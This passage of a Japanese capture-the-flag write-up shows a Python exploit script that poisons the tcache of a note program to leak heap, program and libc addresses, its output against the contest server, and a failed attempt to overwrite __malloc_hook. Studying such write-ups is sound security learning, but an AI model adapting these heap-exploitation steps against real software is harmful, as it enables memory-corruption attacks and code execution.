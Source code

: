 ```python
## leak heap address
create("A")
create("B")
write("A", 0x28, "Hello")
write("B", 0x28, "Hello")
delete("A")
delete("B")
create("A")
addr_heap = u64(show("A"))
dump("addr heap = " + hex(addr_heap))

## leak proc base
create("X")
create("X2")
write("X", 0x28, b"A" * 0x20 + p64(addr_heap + 0x78)) # fake chunk
delete("X")
# now: tcache --> (X) --> (X->content) --> ...
create("X")
create("Y") # pon!
proc_base = u64(show("Y")) - 0x4080
dump("proc base = " + hex(proc_base))

## leak libc base
create("P")
write("P", 0x28, b"A" * 0x20 + p64(proc_base + elf.got("puts")))
delete("P")
# now: tcache --> (P) --> (P->content) --> ...
create("P")
create("Q") # pon!
libc_base = u64(show("Q")) - libc.symbol("puts")
dump("libc base = " + hex(libc_base))

sock.interactive()
```

やったー。
```
$ python solve.py 
[+] Socket: Successfully connected to problem.harekaze.com:20003
[ptrlib] addr heap = 0x559d26cfb260
[ptrlib] proc base = 0x559d259d8000
[ptrlib] libc base = 0x7f251d9bb000
1. Create note
2. Write content
3. Show content
4. Delete note
Choice: [ptrlib]$
```

同じようにして`__malloc_hook`を書き換えたいのですが、contentがNULLじゃないと二度書きできないよーと怒られます。
ここでdouble freeを使わないといけないかと思ったのですが、deleteは絶対にcontentをfreeするので、先程までと同様に偽のnoteを作って__malloc_hookのアドレスとかを書き込んでfreeしてやればOKです。
と思って次のようなコードを作ったところ
```
create("I")
write("I", 0x28, b"A" * 0x20 + p64(libc_base + libc.symbol("__malloc_hook")))
delete("I")
# now: tcache --> (I) --> (I->content) --> ...
create("I")
create("J") # pon!
delete("J")
```
死にました。
```
double free or corruption (out)
```